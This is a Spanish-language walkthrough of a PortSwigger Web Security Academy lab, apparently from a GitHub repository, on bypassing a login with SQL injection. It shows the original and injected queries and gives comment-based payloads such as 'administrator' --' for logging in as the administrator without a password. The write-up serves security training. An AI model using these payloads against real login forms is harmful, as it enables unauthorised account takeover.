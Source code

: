 # `Lab`: SQL injection vulnerability allowing login bypass

- [Lab: SQL injection vulnerability allowing login bypass](https://portswigger.net/web-security/sql-injection/lab-login-bypass)

## Descripción:

This lab contains a SQL injection vulnerability in the login function.

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user.

---

### Explicación:

- En este laboratiorio ya nos dan el nombre del **user** `administrator`, pero no tenemos el **password**.
- El truco está en comentar todo lo que está después del **user** para brincar la condición del **password**.

### Query original:

````sql
select id,username,subscription from users where username = 'administrator' and password = 'p@ssw0rd123-1';
````

### Query inyectada:

````sql
select id,username,subscription from users where username = 'administrator' --' and password = 'p@ssw0rd123-1';
````

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/4cd5611e-0aac-435f-a45d-4a254b669186)


## Solución:

1. Abrir laboratorio y buscar en donde me puedo autenticar

2. Ingresar el usuario `administrator` con el payload `administrator' --` o `administrator' -- -` o `administrator' #` _(O cualquiera de sus versiones)_

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/cb2feaac-5eef-4207-9786-15aa382ef97d)

![image](https://github.com/Fz3r0/Fz3r0_-_SQLi/assets/94720207/f19586fc-90f0-46e3-8172-66a0c69ccdf9)





